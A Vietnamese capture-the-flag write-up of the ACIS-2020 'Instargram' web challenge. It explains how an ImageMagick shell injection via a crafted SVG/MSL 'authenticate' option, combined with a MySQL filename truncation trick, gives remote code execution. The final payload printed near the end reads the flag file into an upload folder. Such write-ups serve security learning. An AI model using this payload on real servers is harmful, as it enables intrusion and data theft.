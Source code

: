```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "[ACIS-2020-Final] Web02: Instargram"
subtitle: ""
summary: ""
authors: [DoubleVKay]
tags: []
categories: [writeups,web,ctf,php,imagemagick]
---
```


# [ACIS-2020-Final] Sinh viên với An Toàn Thông Tin ASEAN 2020 Final

# Instargram

## Description

- Source: [Instargram](src)
- ImageMagick version: `7.0.10-37`
- Hints:
  1.  `Magic!!!`
  2.  `ducnt / @bcd1234`

![img1](img/img1.png)

## Summary

Website cho phép đăng ký, đăng nhập, thay đổi avatar. Khi thay đổi avatar sẽ gọi đến lệnh `convert` từ system (**Imagemagick**) để chuyển đổi ảnh. Kết hợp lỗi [ImageMagick - Shell injection via PDF password](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) và **SQL Truncation Attack** khai thác thực thi mã từ xa (**RCE**).

## Analysis

### Upload

Những file upload lên server phải thỏa mãn những yêu cầu, đặc điểm sau:
1. Size <= `500000`
2. Thư mục lưu trữ của mỗi user là bí mật:
  ```php
  function gen_secret_path($username) {
      $secret_path = "images/avatars/".md5(SALT.$username)."/";
      return $secret_path;
  }
  $secret_path = gen_secret_path($username);
  ...
  $target_file = $secret_path . $avatar;
  ```
3. File type phải là: `JPG, JPEG, PNG, SVG && GIF`

### Convert

Khi upload avatar, server sẽ tạo 1 bản copy của file nhằm chuyển đổi sau đó. 
  ```php
    if( $count2 === 1 && $row['username'] === $username) 
    {
        $_prepare_for_convert = $secret_path.$row2['for_convert'];
        copy($target_file, $_prepare_for_convert);
    }
  ```

Tên của file convert này được thêm suffix: `-InStarGram-HackEmAll2020.png`
```php
function watermark($string) {
    return $string."-InStarGram-HackEmAll2020";
}
$_for_convert = trim($filename,".".$extension);
$_for_convert =  $_for_convert.".".$extension.watermark("").".png";
```
- Ví dụ: `shell.php.jpg` -> `shell.php.jpg-InStarGram-HackEmAll2020.png`

Khi đã upload lên server, server sẽ sử dụng **Imagemagick** để chuyển đổi ảnh
```php
  $_orignal_image = $row['for_convert'];
  $_orignal_image = $secret_path.$_orignal_image;
  $_orignal_image = superwaf($_orignal_image);
  $_convert_image = superwaf($_convert_image);
  $_beautify_image = "convert -level 0%,100%,2.0 ".$_orignal_image." ".$_convert_image;
  system($_beautify_image);
```
- *`superwaf()` giúp bảo vệ **Command Injection***
  ```php
  function superwaf($data) {
    $data = trim($data);
    $data = stripslashes($data);
    $data = htmlspecialchars($data);
    $data = escapeshellcmd($data);
    return $data;
  }
  ```

## Exploit

### ImageMagick Bug

- ImageMagick change log:
![img2](img/img2.png)
- Tìm ...  
![img3](img/img3.png)
- Và [đây](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) là bài phân tích chi tiết lỗi, cũng như cách exploit. Nó được đăng vào **November 21, 2020**. Vậy là đề được lấy cảm hứng từ 1 bug mới được public cách ngày thi 1 tuần ...

**Tóm lược**, ImageMagick cho phép sử dụng mật khẩu khi chuyển đổi PDF thông qua option `-authenticate`. Option này được dùng trong việc gọi một command khác, và nó không được làm sạch an toàn. Đồng nghĩa, việc kiểm soát thành công `-authenticate` sẽ dẫn đến **RCE**. Tuy nhiên điều này không phải lúc nào cũng khả thi (như trong bài này). May mắn thay, ImageMagick còn hỗ trợ **ImageMagick Scripting Language (MSL)** thông qua 1 file input **svg**, có thể truyền thẳng option bên trong nội dung file. Chi tiết hơn có thể xem [tại đây](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

**Quay lại với đề bài**, như vậy, nếu upload 1 file **SVG**, khi server gọi `convert evil.svg whatever.jpg`, thì `$(command)` sẽ được thực thi.

```html
<image authenticate='ff" `echo $(command)`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Tuy nhiên, `for_convert` được thêm suffix `-InStarGram-HackEmAll2020.png` nên không thể upload file **svg** được?

### SQLi Truncation Attack

Độ dài trường **for_convert** là **100**, vì vậy có thể tận dụng để truncate phần suffix của tên file.

```
CREATE TABLE `converts` (
  `id` int NOT NULL AUTO_INCREMENT,
  `username` varchar(50) DEFAULT NULL,
  `for_convert` varchar(100) DEFAULT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
```

Vậy tên file cần có dạng:
```php
$filename = str_repeat("a",96).".svg"
```

Lúc này, nếu tiến hành chạy reverse shell hay outbound thì sẽ nhận ra server đã chặn. Vậy cần phải extract output command ra đâu đó, ra file? Nhưng chỉ có thư mục upload là có quyền ghi và như đã trình bày, đường dẫn thư mục upload của mỗi user là bí mật?

*Đây cũng là lý do không dùng cách upload file php (dùng truncation attack) để lên shell được*

### Có điều gì đó đã bị bỏ qua ...?

Quay lại source code được cung cấp, tại `images/avatars/`:
![img4](img/img4.png)

**978581028bb6f432c5a3a7694e8dad32**?. Một gợi ý của đề để lại, thư mục upload của user **ducnt** với mode `0777`. Như vậy, đã tìm được nơi ghi output của command.

## Final Payload

- Filename: **aa...aa.svg** (length == 100)
- Payload
```html
<image authenticate='ff" `echo $(cat /flag.txt)> ./images/avatars/978581028bb6f432c5a3a7694e8dad32/doublevkay.txt`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:./images/avatars/978581028bb6f432c5a3a7694e8dad32/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.svg" height="100" width="100"/>
  </svg>
</image>
```

Truy cập lại `/account.php` để kích hoạt `convert` và get flag.

![flag](img/flag.png)
![a](img/img5.jpg)

**Flag:**

```ASCIS{amayzing-goodjob-em:https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html-(ft)-mysql-truncation}```

## Không liên quan

Thừa nhận hay không thì mình vẫn là một mắt xích yếu, sr my team!.

Và, yoh, hơi sến xíu nhưng thực sự cảm ơn những người anh đã giúp đỡ em trong chặng đường học cyber sec này, rất ý nghĩa! (và chắc còn dài =)))

Btw, chúc mừng team **HCMUS.Twice** - một chức vô địch xứng đáng. Cuộc thi là một trãi nghiệm rất thú vị, thanks all và ... hẹn gặp lại.
